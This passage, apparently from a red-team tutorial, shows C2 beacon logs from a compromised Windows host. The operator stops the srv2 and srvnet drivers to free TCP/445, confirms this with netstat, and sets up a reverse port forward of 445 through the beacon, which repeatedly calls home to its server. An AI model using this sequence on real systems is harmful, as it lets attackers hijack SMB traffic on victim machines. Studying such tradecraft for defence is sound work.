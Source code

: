 ```
[05/26 02:23:53] [+] received output:

SERVICE_NAME: srv2 
        TYPE               : 2  FILE_SYSTEM_DRIVER  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

[05/26 02:23:58] beacon> run sc stop srvnet
[05/26 02:23:58] [*] Tasked beacon to run: sc stop srvnet
[05/26 02:23:58] [+] host called home, sent: 32 bytes
[05/26 02:23:58] [+] received output:

SERVICE_NAME: srvnet 
        TYPE               : 2  FILE_SYSTEM_DRIVER  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Next, we can check `netstat` again and find that `TCP/445` is no longer in use.

```
[05/26 02:24:35] beacon> run netstat -ano
[05/26 02:24:35] [*] Tasked beacon to run: netstat -ano
[05/26 02:24:35] [+] host called home, sent: 30 bytes
[05/26 02:24:35] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1000
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       7624
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1100
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
```

And, we can proceed to perform the reverse port forward once again with no errors:

```
[05/26 02:26:27] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:26:27] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:26:27] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:26:27] [+] host called home, sent: 10 bytes
```

This can be verified by running a `curl` against ourselves at `TCP/445` and catching the request on our host:
